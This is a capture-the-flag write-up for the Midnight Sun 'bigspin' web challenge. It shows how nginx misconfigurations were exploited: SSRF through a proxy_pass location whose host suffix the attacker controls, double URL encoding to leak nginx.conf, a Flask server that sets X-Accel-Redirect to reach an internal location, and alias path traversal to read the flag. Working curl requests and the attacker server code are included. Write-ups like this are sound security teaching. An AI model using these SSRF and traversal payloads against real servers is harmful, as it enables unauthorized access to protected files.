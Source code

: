 ```yaml
---
tags: ["web", "traversal", "nginx", "ssrf", "prox"]
author: "bennofs"
---
```

# Challenge
> This app got hacked due to admin and uberadmin directories being open. Was just about to wget -r it, but then they fixed it :( Can you help me get the files again?

When visiting the site, it just displays a simple sentence:

> What's it gonna be? Are you an uberadmin, an admin, a user, or (most likely) just a pleb? 

where uberadmin, admin, user and pleb are links:

- `/uberadmin` gives 403 (nginx)
- `/admin` is 404 (nginx)
- `/user` is also 403 (nginx)
- `/pleb` displays the contents of https://example.org

# Solution

After playing around a little bit, we discover that all paths beginning with `/uberadmin` or `/user` are disallowed. Interestingly, `/userSOME_SUFFIX` is also blocked. This suggests that the nginx config uses `location` without trailing slash, so https://github.com/yandex/gixy/blob/master/docs/en/plugins/aliastraversal.md may be applicable.
Also, `http://bigspin-01.play.midnightsunctf.se:3123/plebSOME_SUFFIX` results in `502 Bad Gateway` so the server is likely using `example.org` as upstream and just proxies `/pleb` there.

A quick test with `http://bigspin-01.play.midnightsunctf.se:3123/pleb.mydomain.com` confirms this theory, as DNS requests to `example.com.mydomain.com` show up in logs. We can list the contents of the user directory with [localtest.me](https://readme.localtest.me): http://bigspin-01.play.midnightsunctf.se:3123/pleb.localtest.me/user/. This reveals that `/user/nginx.cönf` exists, which can be obtained via double URL encoding (due to the proxying):

```nginx
$ curl 'http://bigspin-01.play.midnightsunctf.se:3123/pleb.localtest.me/user/nginx.c%25C3%25B6nf%2520'
worker_processes 1;
user nobody nobody;
error_log /dev/stdout;
pid /tmp/nginx.pid;
events {
  worker_connections 1024;
}

http {

    # Set an array of temp and cache files options that otherwise defaults to
    # restricted locations accessible only to root.

    client_body_temp_path /tmp/client_body;
    fastcgi_temp_path /tmp/fastcgi_temp;
    proxy_temp_path /tmp/proxy_temp;
    scgi_temp_path /tmp/scgi_temp;
    uwsgi_temp_path /tmp/uwsgi_temp;
    resolver 8.8.8.8 ipv6=off;

    server {
        listen 80;

        location / {
            root /var/www/html/public;
            try_files $uri $uri/index.html $uri/ =404;
        }

        location /user {
            allow 127.0.0.1;
            deny all;
            autoindex on;
            root /var/www/html/;
        }

        location /admin {
            internal;
            autoindex on;
            alias /var/www/html/admin/;
        }

        location /uberadmin {
            allow 0.13.3.7;
            deny all;
            autoindex on;
            alias /var/www/html/uberadmin/;
        }

        location ~ /pleb([/a-zA-Z0-9.:%]+) {
            proxy_pass   http://example.com$1;
        }

        access_log /dev/stdout;
        error_log /dev/stdout;
    }

}
```
We now see that `/admin` is marked as `internal`. Quoting the [nginx docs](http://nginx.org/en/docs/http/ngx_http_core_module.html#internal):

>  Specifies that a given location can only be used for internal requests. For external requests, the client error 404 (Not Found) is returned. Internal requests are the following:
>
> - requests redirected by the error_page, index, random_index, and try_files directives;
> -  requests **redirected by the “X-Accel-Redirect”** response header field from an upstream server;
> -  subrequests formed by the “include virtual” command of the ngx_http_ssi_module module, by the ngx_http_addition_module module directives, and by auth_request and mirror directives;
> - requests changed by the rewrite directive.

To access that, we write a trivial python server that sets `X-Accel-Redirect`:

```python
import os
from flask import Flask,redirect,make_response

app = Flask(__name__)

@app.route('/<path:rest>')
def hello(rest):
    r = make_response()
    print(rest)
    r.headers.set("X-Accel-Redirect", '/' + rest)
    return r

if __name__ == '__main__':
    # Bind to PORT if defined, otherwise default to 5000.
    port = int(os.environ.get('PORT', 80))
    app.run(host='0.0.0.0', port=port)
```

So we access admin, and then use nginx path traversal (this time possible because the `/admin` location uses `alias` instead of `root`) to read the flag from uberadmin:

```
$ curl http://bigspin-01.play.midnightsunctf.se:3123/pleb.ctfip.ddnss.ch/admin/flag.txt
hmmm, should admins really get flags? seems like an uberadmin thing to me

$ curl http://bigspin-01.play.midnightsunctf.se:3123/pleb.ctfip.ddnss.ch/admin../uberadmin/flag.txt
midnight{y0u_sp1n_m3_r1ght_r0und_b@by}
```


# References

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf mentions this and lots of other interesting path issues as well
